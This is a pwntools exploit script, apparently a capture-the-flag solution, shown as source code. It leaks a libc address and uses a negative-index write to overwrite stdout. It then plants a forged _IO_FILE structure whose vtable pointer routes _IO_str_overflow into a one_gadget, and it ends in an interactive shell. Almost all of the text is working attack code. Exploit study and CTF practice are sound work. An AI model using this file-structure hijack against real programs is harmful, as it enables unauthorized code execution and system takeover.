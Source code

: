 ```python
io.recvuntil(b'\n') # "AAAAA...AAAAA\n"

res = io.recvuntil(b'\n') # "0x7f...\n"
leak = u64(res[:-1].ljust(8, b'\x00'))
libc.address = leak - 0x1b39e7

print(f'libc at: {hex(libc.address)}')

io.recv() # "Enter the index of the you want to write: "

gadget = libc.address + 0x10a45c # [rsp+0x70 == NULL] one_gadget
io_str_overflow = libc.address + 0x3e8378 # _IO_str_overflow ptr in _IO_str_jumps vtable

pl = str(-6) # -(note_offset - stdout) / 8
io.sendline(pl)

io.recv() # "Enter data: "

pl = b''

pl += p64(0x00000000fbad2886) # _flags: set the _flags lsb to 0 to allow enlargement

pl += p64(libc.address + 0x3ec7e3)*3

pl += p64(libc.address + 0x3ec7e3) # _IO_write_base
pl += p64(libc.address + 0x3ec7e3 + 2) # _IO_write_ptr
pl += p64(libc.address + 0x3ec7e3) # _IO_write_end
pl += p64(libc.address + 0x3ec7e3) # _IO_buf_base
pl += p64(libc.address + 0x3ec7e3 + 1) # _IO_buf_end

pl += p64(0x0)*4
pl += p64(libc.address + 0x3eba00)
pl += p64(0x1)
pl += p64(0xffffffffffffffff)
pl += p64(0x000000000a000000)
pl += p64(libc.address + 0x3ed8c0)
pl += p64(0xffffffffffffffff)
pl += p64(0x0)
pl += p64(libc.address + 0x3eb8c0)
pl += p64(0x0)*3
pl += p64(0x00000000ffffffff)
pl += p64(0x0)*2

pl += p64(io_str_overflow - 0x38) # _IO_str_overflow minus the offset to _IO_new_file_xsputn (called in puts)
pl += p64(gadget) # _s._allocate_buffer (overwritten with address of one_gadget)

io.sendline(pl) # send the payload

io.interactive()
```
